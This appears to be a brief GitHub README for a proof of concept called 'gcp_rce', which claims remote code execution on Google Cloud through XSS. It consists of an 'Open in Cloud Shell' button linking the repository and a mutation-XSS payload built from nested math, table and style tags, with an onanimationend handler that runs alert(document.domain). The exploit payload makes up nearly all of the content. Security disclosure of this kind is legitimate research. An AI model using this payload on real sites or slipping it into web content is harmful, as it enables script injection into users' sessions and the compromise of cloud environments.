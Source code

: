 # gcp_rce
Remote Code Execution on GCP trough XSS.

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https://github.com/Nowasky/gcp_rce.git)

<style>@keyframes x{}</style>
<math><mtext><table><mglyph><style><x style="animation-name:x" onanimationend="alert(document.domain)">


